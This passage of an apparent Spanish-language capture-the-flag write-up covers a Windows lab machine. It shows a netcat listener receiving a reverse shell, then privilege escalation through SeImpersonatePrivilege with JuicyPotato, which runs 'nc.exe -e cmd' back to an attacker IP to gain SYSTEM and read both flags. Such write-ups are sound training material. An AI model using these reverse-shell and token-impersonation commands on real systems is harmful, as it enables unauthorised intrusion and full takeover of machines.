 ```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49158.
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>
```

Puedo ver la primera flag

```null
PS C:\Users\merlin\Desktop> type user.txt
5f7c31006642d2650846cdf7f61c6fa9
```

# Escalada

Tengo el ```SeImpersonatePrivileage```

```null
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Con ```JuicyPotato``` me convierto en ```nt authority\system```

```null
PS C:\Temp> .\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -l 1337 -a "/c C:\Temp\nc.exe -e cmd 10.10.16.2 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Puedo ver la segunda flag

```null
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ad7f3b73bae90e91bd06b0937e7c964c
```